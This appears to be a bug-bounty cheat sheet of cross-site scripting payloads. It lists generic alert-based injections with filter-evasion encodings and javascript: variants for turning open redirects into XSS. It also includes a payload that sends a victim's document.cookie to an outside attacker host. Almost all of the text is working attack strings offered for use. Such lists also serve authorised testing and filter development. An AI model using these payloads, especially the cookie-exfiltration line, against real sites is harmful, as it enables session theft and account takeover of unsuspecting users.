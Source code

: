 # Cross-Site Scripting (XXS)

## Generic Payloads

* `<svg onload=alert%26%230000000040"1")>`
* `<x/oncut=alert(1)>a`
* `<body/onload=&lt;!--&gt;&#10alert(1)>`
* `<--`\<img/src= `onerror=alert(1)> --!>`
* `"><img src=x onerror=prompt(1);>`
* `--><script>alert('XSS PRESENT')</script>`
* `">script>alert(1)</script>`
* `<script>alert(document.cookie)</script>`

## Sending a Cookie

`<script>new Image().src="<http://10.11.0.68/pwnd.php?output=>"+document.cookie;</script>`

## Open Redirect to XSS payload list:

→ `javascript:alert(1)` → `%09Jav%09ascript:alert(1)` → `javascript://%250Alert(1)` → `/%09/javascript:alert(1);` → `//%5cjavascript:alert(1);` → `<>javascript:alert(1);` → `//javascript:alert(1);` → `\\j\\av\\a\\s\\cr\\i\\pt\\:\\a\\l\\ert\\(1\\)`

**Credit**: [https://twitter.com/beginnbounty/status/1555898799037743104?s=20\&t=zGK3\_NkYCyU1Xk\_uIss46Q](https://twitter.com/beginnbounty/status/1555898799037743104?s=20\&t=zGK3\_NkYCyU1Xk\_uIss46Q)
